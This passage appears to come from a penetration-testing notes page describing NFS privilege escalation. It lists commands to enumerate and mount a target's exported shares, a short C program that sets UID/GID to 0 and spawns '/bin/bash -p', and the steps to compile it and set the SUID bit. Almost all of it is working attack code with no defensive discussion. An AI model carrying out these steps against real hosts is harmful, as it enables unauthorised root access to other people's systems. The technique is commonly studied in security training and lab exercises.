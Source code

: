***

* On the host machine, check for mountable shares

{% code overflow="wrap" lineNumbers="true" %}
```bash
showmount -e $targetIP
#Example results
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
{% endcode %}

***

* On the host machine, create a shared folder with the target

{% code overflow="wrap" lineNumbers="true" %}
```bash
mkdir /tmp/Attack
sudo mount -o rw $targetIP:/home/ubuntu/sharedfolder /tmp/Attack
```
{% endcode %}

***

* Write a simple script in _C_ to ask for a shell

{% code title="nfs.c " overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
    return 0;
}
```
{% endcode %}

***

* Compile the script and give it SUID Permissions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cd /tmp/Attack
</strong><strong>nano nfs.c    #Create the script as above
</strong>sudo gcc nfs.c -o nfs -w -static
<strong>sudo chmod u+s nfs
</strong>ls -l     #To check if it has permissions for the user
</code></pre>

***
